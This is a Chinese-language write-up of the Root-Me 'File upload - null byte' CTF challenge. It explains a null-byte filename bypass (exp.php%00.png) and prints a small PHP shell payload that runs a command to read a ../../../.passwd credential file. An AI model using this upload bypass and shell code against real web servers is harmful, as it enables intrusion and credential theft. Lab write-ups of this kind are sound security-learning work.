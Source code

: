 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[File upload - null byte](https://www.root-me.org/en/Challenges/Web-Server/File-upload-null-byte)] [[解题报告](http://exp-blog.com/2019/01/14/pid-2995/)]

------

这题和【[Web-Server : File upload - double extensions](http://exp-blog.com/2019/01/13/pid-2985/)】、【[Web-Server : File upload - MIME type](http://exp-blog.com/2019/01/13/pid-2987/)】的渗透思路是一样的，区别在于之前的两种绕过方式均被封锁了。

这次提示的绕过方式是空字节漏洞 null byte ，依然在文件名上做文章，构造 payloads 文件 `exp.php%00.png`：

```php
<?php
	// exp.php%00.png
	// 假如这个文件上传成功，则可以利用 web 打开这个文件进行解析时进行路径穿越
	$content = shell_exec('cat ../../../.passwd');
	echo "<pre>$content</pre>";
?>
```

此文件名在上传时，可以在前端后缀欺骗，而后端在读取时遇到 `%00` 空字节会截断后面部分。

上传成功后获得 `exp.php%00.png` 文件的完整 URI，手工去掉末尾的 `%00.png` 后拼接到 URL，即可获得密码，完成挑战。


![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B18%5D%20%5B25P%5D%20File%20upload%20-%20null%20byte/imgs/01.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
